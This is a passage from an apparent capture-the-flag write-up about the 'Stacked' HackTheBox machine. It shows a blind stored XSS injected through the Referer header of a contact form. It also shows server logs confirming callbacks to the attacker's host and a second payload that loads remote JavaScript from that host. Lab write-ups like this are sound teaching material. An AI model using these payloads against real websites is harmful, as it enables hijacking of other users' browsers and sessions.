 I’ll kick the form submission request over to Burp Repeater and set the referrer header to the XSS payload:

```

POST /process.php HTTP/1.1
Host: portfolio.stacked.htb
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 208
Origin: http://portfolio.stacked.htb
DNT: 1
Connection: close
Referer: <script>document.location="http://10.10.14.6/referer"</script>

fullname=0xdf&email=0xdf%40stacked.htb&tel=012345667890&subject=Help&message=Please+help

```

On sending that, a few minutes later there are three requests at my Python webserver:

```

oxdf@hacky$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.112 - - [24/Aug/2021 11:15:04] code 404, message File not found
10.10.11.112 - - [24/Aug/2021 11:15:04] "GET /referer HTTP/1.1" 404 -
10.10.11.112 - - [24/Aug/2021 11:15:04] code 404, message File not found
10.10.11.112 - - [24/Aug/2021 11:15:04] "GET /favicon.ico HTTP/1.1" 404 -
10.10.11.112 - - [24/Aug/2021 11:15:04] code 404, message File not found
10.10.11.112 - - [24/Aug/2021 11:15:04] "GET /favicon.ico HTTP/1.1" 404 -

```

It actually makes life a bit easier if instead of redirecting the entire page to me, I just have it load JavaScript from my server. I’ll try with this payload:

```

<script src="http://10.10.14.6/xss.js"></script>

```

A minute later:

```
10.10.11.112 - - [24/Aug/2021 11:27:04] code 404, message File not found
10.10.11.112 - - [24/Aug/2021 11:27:04] "GET /xss.js HTTP/1.1" 404 -

```

### Orient
